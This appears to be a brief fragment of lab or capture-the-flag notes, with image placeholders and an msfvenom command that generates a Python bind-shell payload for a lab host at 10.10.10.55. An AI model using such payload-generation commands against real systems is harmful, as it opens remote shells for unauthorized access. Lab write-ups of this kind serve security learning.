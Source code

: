 ![alt text](image-17.png)

![alt text](image-18.png)


To generate a payload that can execute **base64** with **msfvenom**, assuming the host is 10.10.10.55 and runs a Python server, we use the **syntax command**:

> msfvenom -p python/shell_bind_tcp  LPORT=9005 RHOSTS=10.10.10.55 -f python -o payload.py

